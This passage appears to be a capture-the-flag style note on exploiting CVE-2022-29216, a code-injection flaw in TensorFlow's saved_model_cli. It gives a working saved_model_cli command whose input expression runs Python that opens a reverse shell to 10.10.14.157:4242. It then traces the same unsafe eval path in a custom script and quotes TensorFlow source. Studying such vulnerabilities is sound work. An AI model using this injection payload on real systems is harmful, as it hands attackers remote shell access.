 ## CVE-2022-29216
[https://github.com/advisories/GHSA-75c9-jrh4-79mc](https://github.com/advisories/GHSA-75c9-jrh4-79mc)  

```bash
saved_model_cli run --input_exprs 'hello=exec("""import socket\nimport subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.10.14.157",4242))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")' --dir ./ --tag_set serve --signature_def serving_default
```
^ this works but we probably need to trigger it directly from the script

In the custom script there is this 
```python
preprocess_input_exprs_arg_string(data[i],safe=False)
```

The function comes from here: 
```python
from tensorflow.python.tools.saved_model_cli import preprocess_input_exprs_arg_string
```

And that corresponds exactly to the CVE mentioned above, where it still alows to run it through eval if safe is set to False.
```python
def preprocess_inputs_arg_string(inputs_str):
  """Parses input arg into dictionary that maps input to file/variable tuple.

  Parses input string in the format of, for example,
  "input1=filename1[variable_name1],input2=filename2" into a
  dictionary looks like
  {'input_key1': (filename1, variable_name1),
   'input_key2': (file2, None)}
  , which maps input keys to a tuple of file name and variable name(None if
  empty).

  Args:
    inputs_str: A string that specified where to load inputs. Inputs are
    separated by semicolons.
        * For each input key:
            '<input_key>=<filename>' or
            '<input_key>=<filename>[<variable_name>]'
        * The optional 'variable_name' key will be set to None if not specified.

  Returns:
    A dictionary that maps input keys to a tuple of file name and variable name.

  Raises:
    RuntimeError: An error when the given input string is in a bad format.
  """
  input_dict = {}
  inputs_raw = inputs_str.split(';')
  for input_raw in filter(bool, inputs_raw):  # skip empty strings
    # Format of input=filename[variable_name]'
    match = re.match(r'([^=]+)=([^\[\]]+)\[([^\[\]]+)\]$', input_raw)

    if match:
      input_dict[match.group(1)] = match.group(2), match.group(3)
    else:
      # Format of input=filename'
      match = re.match(r'([^=]+)=([^\[\]]+)$', input_raw)
      if match:
        input_dict[match.group(1)] = match.group(2), None
      else:
        raise RuntimeError(
            '--inputs "%s" format is incorrect. Please follow'
```